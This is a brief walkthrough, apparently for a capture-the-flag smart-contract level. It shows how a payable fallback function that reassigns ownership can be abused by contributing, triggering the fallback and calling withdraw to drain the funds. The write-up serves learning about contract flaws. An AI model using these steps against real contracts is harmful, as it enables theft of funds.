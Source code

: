 The function without a name, `function() payable public`, is called a fallback function.
This function sets the message sender as the owner; we just need to make sure the required
conditions are fullfilled.

First, contribute a very small amount of ether:
'await contract.contribute({from: player, value:toWei(0.0009)})'

Then, activate the fallback function by just sending ether to the contract:
`sendTransaction({from: player, value: toWei(0.0009), to: instance, data: "0x99999999"})'



Now you are contract owner ,just withdraw all the contract's funds by using:
`contract.withdraw()`
